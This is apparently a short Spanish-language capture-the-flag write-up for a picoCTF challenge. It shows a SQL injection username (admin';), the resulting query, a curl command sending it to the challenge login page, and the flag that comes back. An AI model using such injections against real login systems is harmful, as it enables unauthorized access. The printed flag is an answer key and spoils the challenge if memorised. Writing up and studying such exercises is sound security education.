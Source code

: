 # Objetivo

# Solución
```
username: admin';
password: 
SQL query: SELECT * FROM users WHERE name='admin';' AND password=''

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_c34df170}


------------------------
┌──(kalicura㉿rufian)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';"  
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>                                                                                            
```
# Notas
- Al usar el usuario ==admin';== forzamos la inyección SQL, la cual verifica que exista un usuario llamado admin, al este existir, la consulta es verdadera y nos da la flag
# Referencia